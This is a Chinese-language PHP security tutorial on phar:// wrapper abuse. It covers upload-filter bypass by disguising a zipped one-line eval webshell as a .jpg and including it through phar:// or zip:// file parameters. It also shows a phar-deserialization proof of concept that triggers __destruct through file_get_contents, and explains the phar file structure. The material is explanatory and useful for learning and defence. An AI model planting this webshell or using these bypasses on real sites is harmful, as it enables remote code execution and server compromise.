

主要来说就2大利用，一个上传用phar伪协议绕过，一个是Phar反序列化漏洞
Phar的简述
phar是什么?Phar归档最好的特点是可以方便地将多个文件组合成一个文件。因此，phar归档提供了一种方法，可以将完整的PHP应用程序分发到单个文件中，并从该文件运行它，而不需要将其提取到磁盘。此外，PHP可以像执行任何其他文件一样轻松地执行phar归档，无论是在命令行上还是在web服务器上
利用姿势一、上传绕过
使用Phar://伪协议流可以Bypass一些上传的waf，大多数情况下和文件包含一起使用，就类似于我们的压缩包（其实就是一个压缩包）
hack
test.php
<?php @eval($_POST["cmd"]);?>然后将test.php压缩->test.zip改名->test.jpg
index.php
<?php
include('phar://./test.jpg/test.php');
?>成功包含（test.jpg为压缩包文件，后面的test.php为里面压缩包文件）
其实和zip协议感觉上差不多
zip
利用zip或phar伪协议可以读取压缩包中的文件，解压的压缩包与后缀无关。
如将file.txt压缩成zip，改后缀为jpg绕过上传限制然后利用如下读取文件
/about.php?file=phar://./images/file.jpg/1.php
/about.php?file=zip://./images/file.jpg%231.php利用姿势二：Phar反序列化漏洞
test:
PS：php.ini中必须设置phar.readonly=Off，不然Phar文件就会无法生成。
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off先新建一个php内容为
<?php
class Test{
public $test="test";
}
@unlink("test.phar");
$phar = new Phar("test.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new Test();
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
$phar->stopBuffering(); //签名自动计算
?>访问后得到文件test.phar

然后使用Phar://协议
demo.php
<?php
class Test{
function __destruct(){
echo $this->test;
}
}
file_get_contents("phar://./test.phar/test.txt");
?>
//输出test这里的test.txt可以是任意字符
除了file_get_contents，这些函数都可用
phar反序列化漏洞原理分析
phar文件结构(参考上面test.phar的图)
、stub
一个供phar扩展用于识别的标志，格式为xxx，前面内容不限，但必须以__HALT_COMPILER();?>来结尾，否则phar扩展将无法识别这个文件为phar文件。
2、manifest
phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以序列化的形式存储用户自定义的meta-data，这里即为反序列化漏洞点。
3、contents
被压缩文件的内容。
4、signature
签名，放在文件末尾，格式如下：
发生反序列化原因
在使用phar://协议读取文件时，文件会被解析成phar
解析过程中会触发php_var_unserialize()函数对meta-data的操作，造成反序列化。
一般情况下，利用Phar反序列漏洞有几个条件：
可以上传Phar文件
有可以利用的魔术方法
文件操作函数的参数可控